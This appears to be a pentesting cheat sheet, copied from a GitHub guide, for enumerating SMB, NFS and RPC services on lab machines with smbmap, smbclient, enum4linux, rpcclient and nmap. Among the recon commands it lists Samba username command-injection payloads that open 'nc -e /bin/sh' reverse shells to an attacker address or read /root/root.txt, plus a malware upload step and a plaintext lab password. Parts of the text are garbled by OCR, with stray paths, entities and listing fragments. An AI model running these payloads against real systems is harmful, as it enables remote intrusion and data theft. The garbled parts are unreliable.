 https://github.com/absolomb/Pentesting/blob/master/guides/Initial%20Enumeration.md
#### smbmap

  smbmap -H "10.10.185.43" | tee "recon/smbmap_10.10.185.43.txt"    
  smbmap -H "10.10.185.43" -u milesdyson -p ')s{A&2Z=F^n_E.B`'
  smbmap -u null -p "" -H 10.10.83.190  -P 445 -R 
  
  `smbclient \\\\10.10.104.121\\nt4wrksv`
  .smb: \> put pwn.exe                                                                                                                                       │        dr--r--r--   
#### smbclient

  smbclient --user=milesdyson //10.10.185.43/milesdyson 

  smbclient -L "//10.10.185.43/" -U "guest"%| tee "recon/smbclient_10.10.185.43.txt"              
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
  smbclient -L x.x.x.x
  
  smbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodor
  
  smbclient //10.10.100.49/anonymous
  
  enum4linux -a ip
  
  rpcclient -U "" x.x.x.x  #Anonymous bind using rpcclient / Null connect
  
  smbclient //MOUNT/share #Connect to SMB share

  smbclient -U "/=&#92;&#96;nohup nc -e /bin/sh LHOST LPORT&#92;&#96;" -N -I ip //LAME/tmp

  nmap -T4 -sS -sC -Pn -A --script smb-vuln* ip
  
  smbclient //ip/tmp
  logon "./=`nohup nc -e /bin/sh LHOST LPORT`"

  smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp

  smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp
  
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.100.49


mount
  mount ip:/vol/share /mnt/nfs  -nolock
  
  mount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifs
  
  mount -t cifs //x.x.x.x/share /mnt
  
  mount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mnt
  
#### Mounting File Share
  showmount -e IPADDR
  sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other

# Port 111 - Rpcbind
	rpcinfo -p INSERTIPADDRESS

# Port 123-NTP
	ntp-info and ntp-monlist
	Check ntpd version for exploits
# Port 139/445 - SMB
	• Name:
	• Version:
	• Domain/workgroup name:
	• Domain-sid:
	• Allows unauthenticated login:

nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445
```	
enum4linux -a INSERTIPADDRESS
rpcclient -U "" INSERTIPADDRESS		-c options
srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
    smbclient //INSERTIPADDRESS/ipc$ -U john 
	nmblookup -A INSERTIPADDRESS
```
